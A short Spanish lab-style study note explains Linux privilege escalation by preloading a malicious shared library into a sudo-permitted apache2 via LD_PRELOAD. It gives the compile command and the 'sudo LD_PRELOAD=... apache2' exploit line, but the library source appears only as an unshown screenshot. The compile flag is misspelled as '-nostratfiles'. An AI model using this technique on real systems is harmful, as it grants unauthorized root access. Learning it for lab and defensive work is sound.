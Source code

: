 
Son como DLL pero para linux. Archivos que contienen fragmento de código y que pueden ser cargados por varios binarios.

La idea es crear un Shared library malicioso y cargarlo en un binario.

Ejemplo.

![[Pasted image 20250224092159.png]]

Como se puede ver el usuario student tiene acceso a ejecutar el apache2 como sudo y que puede utilizar la variable de entorno de LD_PRELOAD.

Vamos a crear un shared library llamada shell.c

![[Pasted image 20250224092534.png]]

Ahora se tiene que compilar.

```bash
gcc -fPIC -shared -o shell.so shell.c -nostratfiles

#vamos a ejecutar como root apache2 aprovechando la variable de entorno y el shared library.
sudo LD_PRELOAD=/home/student/shell.so apache2
```

![[Pasted image 20250224092846.png]]
